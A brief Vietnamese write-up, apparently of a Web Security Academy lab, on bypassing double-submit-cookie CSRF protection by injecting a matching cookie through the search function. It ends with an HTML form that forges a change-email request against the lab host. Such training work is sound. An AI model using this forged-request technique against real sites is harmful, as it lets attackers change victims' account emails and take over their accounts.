


## CSRF where token is duplicated in cookie

1. Trong request đổi email nhận thấy giá trị của csrf token và cookie csrf là giống nhau. Thử đổi cả 2 thành cùng 1 giá trị bất kỳ nhận thấy vẫn đổi được email.

2. Bypass http request bằng lỗ hổng injection trong chức năng search để set-cookie cho csrf = gia trị của csrf token

3. Craft trang exploit.

``<form method="POST" action="https://0adc00d903dd58cfc0f340bc001f00f7.web-security-academy.net/my-account/change-email">
<input type="hidden" name="email" value="sv_cuong@viettel"/>
<input type="hidden" name="csrf" value="123"/>
<input type="submit" value="submit"/>
</form>
``